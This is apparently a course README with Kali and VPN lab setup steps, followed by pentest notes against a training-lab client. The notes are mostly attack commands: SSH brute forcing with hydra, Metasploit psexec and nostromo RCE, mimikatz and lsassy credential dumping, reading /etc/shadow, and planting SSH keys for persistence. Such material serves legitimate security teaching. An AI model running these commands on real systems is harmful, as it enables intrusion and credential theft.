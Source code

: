 # Hacker-Fundamentals
Welcome to the Hacker Fundamentals lab setup page !

To be able to participate in the lab exercises and CTF in this course you will need to have:
* An OS on which you will download a VM 
* A VM, either VirtualBox or VMWare 

1) Downloading a VM 
* If you would like to download VirtualBox, please see the instructions at the following URL: 
  https://www.virtualbox.org/wiki/Downloads
* If you would like to download VirtualBox, please see the instructions at the following URL:
  https://www.vmware.com/products/workstation-player/workstation-player-evaluation.html

2) Download Kali VM Image
A Kali VM image has been provided to you at <URL>, depending on your VM of choice please download the appropriate file (VirtualBox or VMWare)
Once the file has downloaded, unzip the file contents and click on the kali-linux-rolling-virtualbox-amd64.vbox file in order to load the Kali image into VirtualBox and if you use VMWare, drag the file to the VMWare application.

3) Downloading a VPN profile 
On your Kali VM, Please visit <URL> , and download the vpn profile that the course instructors have assigned to you. 

4) Load the VPN profile 
Once the VPN profile has been downloaded on your Kali image, open terminal and type the following command :  ``` sudo openvpn --config your_vpn_file.ovpn ```
**Do not close the terminal window where you established a VPN connection, as that will close the connection**

5) Test the VPN connection
Open a new terminal window and type the following command: ```ping IP```, 
if you receive an ICMP response, the connection works and you are now in the lab environment.

-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
  Captain Crunch - Network Pentest
May 29, 2023
--------------------------------

Information provided by client:

domain: captaincrunch.co
IP networks: 10.10.10.0/24, 10.10.30.0/24

blee : 3120f299755272e11e898989265a2196


External Reconnaissance
-----------------------

All whois information redacted by registrar

Monica Garfield works as developer at CC
	Mentions foxtrot container on LinkedIn
	DNS recon found foxtrot.captaincrunch.co host at 64.226.83.128

	Able to login to foxtrot (10.10.10.11) via ssh brute force as Monica!

	hydra -l monica -P /usr/share/wordlists/rockyou.txt ssh://10.10.10.11:22 -t 4

	What if Monica is a user on a Windows system that she does dev work from?

	Let's try using metasploit as her to login to a windows hosts

	msfconsole
	search psexec
	use windows/smb/psexec
	set rhosts 10.10.30.11
	set smbdomain captaincrunch.co
	set smbuser monica.garfield
	set smbpass tinkerbell
	exploit



Mimikatz:

	shell
	cd c:\tools
	.\mimikatz.exe
	sekurlsa::logonpasswords

Impacket:

impacket-psexec monica.garfield@10.10.30.11


DNS Recon
---------

fierce --domain captaincrunch.co
gobuster dns -d captaincrunch.co -w /usr/share/wordlists/amass/subdomains.lst -i

charlie.captaincrunch.co [64.226.83.119]
delta.captaincrunch.co [64.226.105.183]
echo.captaincrunch.co [64.226.83.135]
foxtrot.captaincrunch.co [64.226.83.128]
golf.captaincrunch.co [64.226.102.67]
india.captaincrunch.co [64.226.110.16]
juliet.captaincrunch.co [142.93.105.226]


Commands used:

cat external | cut -d " " -f 2 | tr -d "[" | tr -d "]" > external.ips
nmap -iL external.ips -Pn --top-ports=1000 --open -oN external.nmap


Internal Recon
--------------

Discovery:
nmap -sn 10.10.10.0/24 > internal
nmap -sn 10.10.30.0/24 >> internal
cat internal | grep report | cut -d " " -f 5 > internal.ips

Port scans:

nmap -iL internal.ips --top-ports=1000 --open -oN internal-top-ports.nmap

With Metasploit:

msfdb init
msfconsole
db_nmap 10.10.10.0/24 -p-
db_nmap 10.10.30.0/24 -p-


Interesting Services:

ssh is open (10.10.10.2, 10.10.10.3, 10.10.10.8, 10.10.10.9)
12345 open on 10.10.10.12
31337 open on 10.10.10.9 (likely web server httpd 2.4.38)
	Running wordpress
	WPScan confirmed vulnerabilities 
8000 is open  on 10.10.10.9
55555 open 10.10.10.13 (simplehttpserver ?)
	/credit contains ssh key for tigerwoods
	dirb http://10.10.10.13:55555 /usr/share/wordlists/dirb/small.txt

10.10.30.10 likely domain controller (domain: captaincrunch.co)
Windows hosts (10.10.30.11, 10.10.30.12)
6666 open on 10.10.30.11
5984 and 49153 open on 10.10.30.20 (unusual ports = interesting)
	5984 running couchdb 1.6.0 (RCE available!!)
	49153 running nostromo 1.9.6 (RCE available!!!)
		Exploited with Metasploit
		msfconsole
		use (multi/http/nostromo_code_exec
		set rhost 10.10.30.20
		set rport 32768
		set lhost tun0
		exploit
		

SSH keygen

	ssh-keygen
	enter - enter - enter
	ssh monica@10.10.10.11    tinkerbell
	nano ~/.ssh/authorized_keys
	paste PUBLIC key here
	exit 
	ssh -i private_key monica@10.10.10.11


Linux PrivEsc
	
	./linpeas.sh
	sudo -l
	sudo cat /etc/shadow

Tigerwoods lateral movement:

	ls -la
	chmod 600 tigerwoodskey
	ssh -i tigerwoods@10.10.10.10
	Try to put your private key in authorized_keys like before to get access with your private key

Windows Post Exploitation:

	net user
	net user /domain
	net group "Domain Admins" /domain
	


Commands:

wpscan --url http://10.10.10.9:31337
nikto -host 10.10.10.13 -port 55555

 crackmapexec smb 10.10.30.11 -u monica.garfield -p tinkerbell -M lsassy

